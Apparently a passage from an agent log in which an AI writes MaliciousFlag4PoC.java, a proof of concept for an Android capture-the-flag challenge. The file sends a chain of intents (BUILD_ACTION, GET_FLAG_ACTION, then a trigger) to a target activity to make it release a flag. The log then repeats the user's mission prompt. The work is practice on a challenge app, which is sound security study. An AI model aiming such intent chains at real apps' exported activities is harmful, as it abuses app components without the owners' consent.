             '            startActivity(buildIntent);\n'
            '            Log.d(TAG, "Sent BUILD_ACTION intent.");\n'
            '            Thread.sleep(1000); // Give target activity time to '
            'process\n'
            '\n'
            '            // Step 3: Transition to GET_FLAG state\n'
            '            Intent getFlagIntent = new Intent();\n'
            '            getFlagIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '            getFlagIntent.setAction("GET_FLAG_ACTION");\n'
            '            startActivity(getFlagIntent);\n'
            '            Log.d(TAG, "Sent GET_FLAG_ACTION intent.");\n'
            '            Thread.sleep(1000); // Give target activity time to '
            'process\n'
            '\n'
            '            // Step 4: Trigger success(this) - any intent will '
            'do\n'
            '            Intent triggerSuccessIntent = new Intent();\n'
            '            triggerSuccessIntent.setComponent(new '
            'ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n'
            '            // No specific action needed, just sending an intent\n'
            '            startActivity(triggerSuccessIntent);\n'
            '            Log.d(TAG, "Sent final trigger intent to call '
            'success(this).");\n'
            '            Toast.makeText(this, "Flag 4 exploit sequence sent. '
            'Check target app for flag.", Toast.LENGTH_LONG).show();\n'
            '\n'
            '        } catch (Exception e) {\n'
            '            Log.e(TAG, "Error during exploit sequence: " + '
            'e.getMessage());\n'
            '            Toast.makeText(this, "Error: " + e.getMessage(), '
            'Toast.LENGTH_LONG).show();\n'
            '        }\n'
            '    }\n'
            '}\n',
 'file_path': 'MaliciousFlag4PoC.java'})

--- Tool Observation ---
Success: Wrote 2870 bytes to '/Users/apple/projects/ultron-ai/test_data/Android-2/MaliciousFlag4PoC.java'.


==================== TURN 6/50 ====================

--- Request to Model ---
Role: user
Text: My mission is to: This is decompiled code of android app, I want u to analyse the code and solve the Flag4 challenege by providing a working poc to solve the challenge in that activity. Begin your analysis.
----------
Role: model
Text: **Diving into the Android App Decompile**
